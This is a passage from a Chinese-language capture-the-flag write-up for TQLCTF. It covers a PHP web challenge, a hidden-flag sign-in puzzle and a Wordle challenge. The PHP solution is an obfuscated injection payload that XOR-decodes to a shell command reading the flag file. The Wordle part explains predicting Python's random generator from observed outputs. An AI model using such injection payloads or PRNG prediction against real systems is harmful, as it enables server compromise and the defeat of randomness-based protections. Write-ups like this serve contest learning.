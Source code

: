 ![image-20220221210613235](https://cdn.jsdelivr.net/gh/whitegive111/photo/img/image-20220221210613235.png)

# 前言

这周周末跟大哥们一起打了TQLCTF,题目跟大哥们真的TQL,完全打不动。fw只能摸MISC,脑王出的题真的看不懂,最后苟且摸进前十

# Web

## Simple PHP

```Bash
user=a%29%2F*&pass=a%29%2F*&website=*%2Fscandir();%2F*&punctuation=*/;$_="%8C%86%8C%8B%9A%92";$__="%ff%ff%ff%ff%ff%ff%ff";$___=$_^$__;$____="%9C%9E%8B%DF%D0%99%D5";$_____="%ff%ff%ff%ff%ff%ff%ff%ff";$______=$____^$_____;$___($______);%3b/*
```



# Misc

## 签到

看源码即可

<p>可恶的出题人把flag藏起来了，不过还可以参加抽奖</p><section><img class="rich_pages wxw-img" data-ratio="4.14625" data-src="https://mmbiz.qpic.cn/mmbiz_jpg/RicNZQMn3FU432ibcxcefKcNLqarW4NFEMHsR9ibHW8INbUQibUGnnX9oXhUHdoM6NMjPdkSjdYJicYuFdFwVlc4InQ/640?wx_fmt=jpeg" data-type="jpeg" data-w="800"  /></section><p><br  /></p><section draggable="false" data-tools-id="66482"><section style="margin: 10px auto;width: 400px;"><section draggable="false" data-tools-id="78209"><section style="overflow: hidden;padding:10px;"><section><p style="text-align: center;margin: 0px;font-size: 16px;">还是被你发现了<br  />TQLCTF{cbe33c52-a4b8-4753-a5d8-8b72b1ab3bb5}</p></section><svg width="100%" height="40em" style="margin-top: -40rem;"><rect width="100%" height="40em" x="0" y="0" style="width: 100%;fill: #fdfdfd;"><animate attributename="height" begin="click" dur="0.3" data-365editor-dur="dur写几秒，动画就持续执行几秒" fill="freeze" values="40em;-400em;40em" data-ipaiban-fill="fill指是否还原初始状态，freeze为不恢复"></animate></rect></svg></section></section></section></section><p><br  /></p>

​                </div>

## Wordle

很容易看懂该源码意思即为猜单词,猜对即为绿色,猜错但是在答案列表(顺序不对)为黄色,完全错误为白色。而要得到flag即要结果为5个绿色。即该次输入需要猜测值完全正确,而mode的值决定了猜测的次数,mode=0时每个单词猜测次数为999999999,mode>0时,猜测次数为7-mode。而随机数在4,288,675,840中产生,为一个10位数。如果需要猜测正确,需要知道产生的随机数%4090的值

需要正确提交512次才能得到flag

首先从mode 0开始打，由于mode 可以猜999999999次，是必中的，然后根据反馈的颜色稍微剪枝一下去搜索，打两次mode 0，凑够624个32位的随机数，就有一定概率能预测后面的随机数（有概率是因为random库的源码表示，当randrange调用randbelow函数，而randbelow函数利用getrandbits，虽然getrandbits是可预测的，但是randbelow这样计算：

```Python
def _randbelow(self, n, int=int, maxsize=1<<BPF, type=type,
                   Method=_MethodType, BuiltinMethod=_BuiltinMethodType):
        "Return a random int in the range [0,n).  Raises ValueError if n==0."

        random = self.random
        getrandbits = self.getrandbits
        # Only call self.getrandbits if the original random() builtin method
        # has not been overridden or if a new getrandbits() was supplied.
        if type(random) is BuiltinMethod or type(getrandbits) is Method:
            k = n.bit_length()  # don't use (n-1) here because n can be 1
            r = getrandbits(k)          # 0 <= r < 2**k
            while r >= n:
                r = getrandbits(k)
            return r
        # There's an overridden random() method but no new getrandbits() method,
        # so we can only use random() from here.
        if n >= maxsize:
            _warn("Underlying random() generator does not supply \n"
                "enough bits to choose from a population range this large.\n"
                "To remove the range limitation, add a getrandbits() method.")
            return int(random() * n)
```